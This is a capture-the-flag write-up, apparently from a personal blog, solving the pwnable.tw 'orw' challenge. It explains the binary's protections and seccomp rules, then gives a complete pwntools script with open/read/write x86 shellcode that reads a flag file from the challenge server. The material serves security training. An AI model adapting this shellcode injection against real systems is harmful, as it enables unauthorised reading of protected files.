 ```yaml
---
layout: post
title:  "Open Read Write shellcoding"
date:   2019-09-09 10:55:00
categories: experience
---
```


# orw writeup [pwnable.tw]


Challenge description

	Read the flag from /home/orw/flag.
	Only open read write syscall are allowed to use.
	nc chall.pwnable.tw 10001


In this challenge we are given a binary , this is information about 
the binary 
	
	orw: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 2.6.32, BuildID[sha1]=e60ecccd9d01c8217387e8b77e9261a1f36b5030, not stripped

And here are some of the protections that are active in this binary

<img src="/images/2019-12-04-135243_511x105_scrot.png">

Yea, the NX protection is disabled , so we can run our code inside the stack segment

## Reverse engineering

Okay we've got some information we need , now it's time to look at the decompilation 
let's open it on ghidra and see the main function

<img src="/images/2019-12-04-140618_359x196_scrot.png">

As you can see , we can input data up to 200 bytes and our input will be stored
at shellcode buffer , and after input the binary will jump to our buffer.
and if you notice that , there is orw_seccomp() function , let's use seccomp-tools 
to gathering more information 

<img src="/images/2019-12-04-141345_527x245_scrot.png">

This binary allow us to use those syscall, so we can try to open the flag inside 
/home/orw/flag and read the value to buffer , and write the buffer.
so it's time to write some asm  , before we write the exploit we have to see syscall code you can use this site
[here](https://syscalls.kernelgrok.com/) and search for sys_open , and this is what we got

<img src="/images/2019-12-04-142625_952x76_scrot.png" class="center" style="width: 800px;">

## Exploit

We have to set eax register to 0x5 and ebx to our file path and more
so firstly to open the file i make assembly code like this

<img src="/images/2019-12-04-144810_250x246_scrot.png">

It will xor eax with eax so the value will set to 0 and we do the same 
instructions for ecx , and mov eax with 0x5 (sys_open syscall) so now eax value will have
0x5 (sys_open syscall) , and after that i push ecx and the string (as hex) to stack 
and mov ebx with esp 

let's do read 

<img src="/images/2019-12-04-145249_222x159_scrot.png">

Actually we mov eax with 0x3 (sys_read syscall) and mov ecx with ebx ,ecx is our buffer
and mov ebx with 0x3 because fd and mov dl as 0x30 for the size

and finally lets write it out

<img src="/images/2019-12-04-145735_225x117_scrot.png">

mov eax with 0x4 (sys_write syscall) and mov bl with 0x1 for fd 

and don't forget every time we write shellcode that call a syscall we have to use int 0x80 at the end of our shellcode ,  int 0x80 is the assembly language instruction that is used to invoke system calls in Linux on x86 (i.e., Intel-compatible) processors. 

here is my full exploit code :

{% highlight python %}
from pwn import *
def main():
	# sys_open()
	shellcode = asm('''
			xor 	eax, eax
			xor 	ecx, ecx
			mov 	eax, 0x5
			push 	ecx
			push 	0x67616c66       
			push 	0x2f77726f       
			push 	0x2f656d6f       
			push 	0x682f2f2f       
			mov 	ebx, esp
			int 	0x80
		''')
	# sys_read()
	shellcode += asm('''
			mov 	eax, 0x3
			mov 	ecx, ebx
			mov 	ebx, 0x3 
			mov 	dl, 0x30
			int 	0x80
		''')
	# sys_write()
	shellcode += asm(''' 
			mov 	eax, 0x4
			mov 	bl, 0x1
			int 0x80
		''')
	#r = process("./orw")
	r = remote("chall.pwnable.tw",10001)
	r.sendline(shellcode)
	r.interactive()
if __name__ == '__main__':
	main()
{% endhighlight %}


And here is our flag :
<img src="/images/2019-12-04-151953_496x97_scrot.png">